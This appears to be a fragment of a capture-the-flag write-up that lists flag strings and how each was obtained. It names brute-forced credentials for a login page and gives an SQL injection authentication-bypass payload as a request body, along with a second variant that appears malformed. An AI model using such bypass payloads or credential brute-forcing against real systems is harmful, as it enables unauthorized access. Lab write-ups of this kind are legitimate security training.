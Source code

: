 FLAG2_c989a196a68d4f2d95a87af648a138c9


Found after we bruteforce the login page and found these creds: guest:butterfly1

FLAG3_77e13c8e69264c69ab8824cc05bd099f



Found after SQLi on the login page: 

	username=admin'OR'1'='1&password=anything

Or just use this in the username filed:

	admin'OR'1'1


FLAG4_95b960fd05bf48819efb8d61220ee913